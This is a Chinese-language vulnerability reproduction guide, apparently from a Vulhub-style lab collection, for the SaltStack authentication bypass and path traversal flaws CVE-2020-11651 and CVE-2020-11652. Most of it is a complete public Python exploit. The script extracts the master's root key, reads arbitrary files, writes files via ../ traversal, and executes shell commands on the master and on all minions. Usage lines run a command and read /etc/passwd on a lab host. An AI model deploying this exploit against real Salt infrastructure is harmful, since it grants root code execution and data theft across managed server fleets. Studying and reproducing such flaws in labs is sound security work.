

# SaltStack 任意文件读写漏洞 CVE-2020-11652

## 漏洞描述

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。国外某安全团队披露了 SaltStack 存在认证绕过漏洞（CVE-2020-11651）和目录遍历漏洞（CVE-2020-11652）。

在 CVE-2020-11652 目录遍历漏洞中，攻击者通过构造恶意请求，可以读取、写入服务器上任意文件。

参考链接：

- https://labs.f-secure.com/advisories/saltstack-authorization-bypass
- https://github.com/rossengeorgiev/salt-security-backports
- https://github.com/jasperla/CVE-2020-11651-poc

## 环境搭建

Vulhub执行如下命令启动一个SaltStack Master服务：

```
docker-compose up -d
```

环境启动后，将会在本地监听如下端口：

- 4505/4506 这是SaltStack Master与minions通信的端口
- 8000 这是Salt的API端口
- 2222 这是容器内部的SSH服务器监听的端口

## 漏洞复现

本文档复现CVE-2020-11652漏洞，参考漏洞作者的说明：

> The wheel module contains commands used to read and write files under specific directory paths. The inputs to these functions are concatenated with the target directory and the resulting path is not canonicalized, leading to an escape of the intended path restriction.

wheel/file_roots.py文件中的write方法，使用`os.path.isabs`来判断用户输入是否是绝对路径，可能目的是防止写入其他目录，但实际上攻击者可以通过`../`的方式跳转至根目录，进而写入任意文件：

```
msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'file_roots.write',
    'path': '../../path/to/target',
    'data': 'test'
#    'saltenv': 'base',
  }
```

参考[这个项目](https://github.com/rossengeorgiev/salt-security-backports)，编写一个简单的POC，写入`/etc/cron.d/shell`，利用crontab执行任意命令。

也可以通过这个[POC](https://github.com/jasperla/CVE-2020-11651-poc)来复现该漏洞，如下：

```python
#!/usr/bin/env python
#
# Exploit for CVE-2020-11651 and CVE-2020-11652
# Written by Jasper Lievisse Adriaanse (https://github.com/jasperla/CVE-2020-11651-poc)
# This exploit is based on this checker script:
# https://github.com/rossengeorgiev/salt-security-backports

from __future__ import absolute_import, print_function, unicode_literals
import argparse
import datetime
import os
import os.path
import sys
import time

import salt
import salt.version
import salt.transport.client
import salt.exceptions

def init_minion(master_ip, master_port):
    minion_config = {
        'transport': 'zeromq',
        'pki_dir': '/tmp',
        'id': 'root',
        'log_level': 'debug',
        'master_ip': master_ip,
        'master_port': master_port,
        'auth_timeout': 5,
        'auth_tries': 1,
        'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
    }

    return salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')

# --- check funcs ----

def check_connection(master_ip, master_port, channel):
  print("[+] Checking salt-master ({}:{}) status... ".format(master_ip, master_port), end='')
  sys.stdout.flush()

  # connection check
  try:
    channel.send({'cmd':'ping'}, timeout=2)
  except salt.exceptions.SaltReqTimeoutError:
    print("OFFLINE")
    sys.exit(1)
  else:
    print("ONLINE")

def check_CVE_2020_11651(channel):
  print("[+] Checking if vulnerable to CVE-2020-11651... ", end='')
  sys.stdout.flush()

  try:
    rets = channel.send({'cmd': '_prep_auth_info'}, timeout=3)
  except:
    print('ERROR')
    return None
  else:
    pass
  finally:
    if rets:
      print('YES')
      root_key = rets[2]['root']
      return root_key

  print('NO')
  return None

def check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path):
  print("[+] Checking if vulnerable to CVE-2020-11652 (read_token)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'cmd': 'get_token',
    'arg': [],
    'token': top_secret_file_path,
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("YES")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    print("NO")
  
def check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (read)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'file_roots.read',
    'path': top_secret_file_path,
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    if rets['data']['return']:
      print("YES")
    else:
      print("NO")

def check_CVE_2020_11652_write1(debug, channel, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (write1)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'file_roots.write',
    'path': '../../../../../../../../tmp/salt_CVE_2020_11652',
    'data': 'evil',
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)

    pp(rets)
    if rets['data']['return'].startswith('Wrote'):
      try:
        os.remove('/tmp/salt_CVE_2020_11652')
      except OSError:
        print("Maybe?")
      else:
        print("YES")
    else:
      print("NO")

def check_CVE_2020_11652_write2(debug, channel, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (write2)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'config.update_config',
    'file_name': '../../../../../../../../tmp/salt_CVE_2020_11652',
    'yaml_contents': 'evil',
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    if rets['data']['return'].startswith('Wrote'):
      try:
        os.remove('/tmp/salt_CVE_2020_11652.conf')
      except OSError:
        print("Maybe?")
      else:
        print("YES")
    else:
      print("NO")

def pwn_read_file(channel, root_key, path, master_ip):
    print("[+] Attemping to read {} from {}".format(path, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.read',
        'path': path,
        'saltenv': 'base',
    }

    rets = channel.send(msg, timeout=3)
    print(rets['data']['return'][0][path])

def pwn_upload_file(channel, root_key, src, dest, master_ip):
    print("[+] Attemping to upload {} to {} on {}".format(src, dest, master_ip))
    sys.stdout.flush()

    try:
        fh = open(src, 'rb')
        payload = fh.read()
        fh.close()
    except Exception as e:
        print('[-] Failed to read {}: {}'.format(src, e))
        return

    msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.write',
        'saltenv': 'base',
        'data': payload,
        'path': dest,
    }

    rets = channel.send(msg, timeout=3)
    print('[ ] {}'.format(rets['data']['return']))

def pwn_exec(channel, root_key, cmd, master_ip, jid):
    print("[+] Attemping to execute {} on {}".format(cmd, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'runner',
        'fun': 'salt.cmd',
        'saltenv': 'base',
        'user': 'sudo_user',
        'kwarg': {
            'fun': 'cmd.exec_code',
            'lang': 'python',
            'code': "import subprocess;subprocess.call('{}',shell=True)".format(cmd)
        },
        'jid': jid,
    }

    try:
        rets = channel.send(msg, timeout=3)
    except Exception as e:
        print('[-] Failed to submit job')
        return

    if rets.get('jid'):
        print('[+] Successfully scheduled job: {}'.format(rets['jid']))

def pwn_exec_all(channel, root_key, cmd, master_ip, jid):
    print("[+] Attemping to execute '{}' on all minions connected to {}".format(cmd, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': '_send_pub',
        'fun': 'cmd.run',
        'user': 'root',
        'arg': [ "/bin/sh -c '{}'".format(cmd) ],
        'tgt': '*',
        'tgt_type': 'glob',
        'ret': '',
        'jid': jid
    }

    try:
        rets = channel.send(msg, timeout=3)
    except Exception as e:
        print('[-] Failed to submit job')
        return
    finally:
        if rets == None:
            print('[+] Successfully submitted job to all minions.')
        else:
            print('[-] Failed to submit job')


def main():
    parser = argparse.ArgumentParser(description='Saltstack exploit for CVE-2020-11651 and CVE-2020-11652')
    parser.add_argument('--master', '-m', dest='master_ip', default='127.0.0.1')
    parser.add_argument('--port', '-p', dest='master_port', default='4506')
    parser.add_argument('--force', '-f', dest='force', default=False, action='store_false')
    parser.add_argument('--debug', '-d', dest='debug', default=False, action='store_true')
    parser.add_argument('--run-checks', '-c', dest='run_checks', default=False, action='store_true')
    parser.add_argument('--read', '-r', dest='read_file')
    parser.add_argument('--upload-src', dest='upload_src')
    parser.add_argument('--upload-dest', dest='upload_dest')
    parser.add_argument('--exec', dest='exec', help='Run a command on the master')
    parser.add_argument('--exec-all', dest='exec_all', help='Run a command on all minions')
    args = parser.parse_args()

    print("[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.")
    time.sleep(1)

    # Both src and destination are required for uploads
    if (args.upload_src and args.upload_dest is None) or (args.upload_dest and args.upload_src is None):
        print('[-] Must provide both --upload-src and --upload-dest')
        sys.exit(1)

    channel = init_minion(args.master_ip, args.master_port)

    check_connection(args.master_ip, args.master_port, channel)
    
    root_key = check_CVE_2020_11651(channel)
    if root_key:
        print('[*] root key obtained: {}'.format(root_key))
    else:
        print('[-] Failed to find root key...aborting')
        sys.exit(127)

    if args.run_checks:
        # Assuming this check runs on the master itself, create a file with "secret" content
        # and abuse CVE-2020-11652 to read it.
        top_secret_file_path = '/tmp/salt_cve_teta'
        with salt.utils.fopen(top_secret_file_path, 'w') as fd:
            fd.write("top secret")

        # Again, this assumes we're running this check on the master itself
        with salt.utils.fopen('/var/cache/salt/master/.root_key') as keyfd:
            root_key = keyfd.read()

        check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path)
        check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key)
        check_CVE_2020_11652_write1(debug, channel, root_key)
        check_CVE_2020_11652_write2(debug, channel, root_key)
        os.remove(top_secret_file_path)
        sys.exit(0)

    if args.read_file:
        pwn_read_file(channel, root_key, args.read_file, args.master_ip)

    if args.upload_src:
        if os.path.isabs(args.upload_dest):
            print('[-] Destination path must be relative; aborting')
            sys.exit(1)
        pwn_upload_file(channel, root_key, args.upload_src, args.upload_dest, args.master_ip)


    jid = '{0:%Y%m%d%H%M%S%f}'.format(datetime.datetime.utcnow())

    if args.exec:
        pwn_exec(channel, root_key, args.exec, args.master_ip, jid)

    if args.exec_all:
        print("[!] Lester, is this what you want? Hit ^C to abort.")
        time.sleep(2)
        pwn_exec_all(channel, root_key, args.exec_all, args.master_ip, jid)


if __name__ == '__main__':
    main()
```

执行命令`touch /tmp/awesome_poc`：

```
python CVE-2020-11652.py --master 192.168.174.128 --exec "touch /tmp/awesome_poc"
```

成功执行命令`touch /tmp/awesome_poc`：


读取文件`/etc/passwd`：

```
python CVE-2020-11652.py --master 192.168.174.128 -r /etc/passwd
```

成功读取文件`/etc/passwd`：



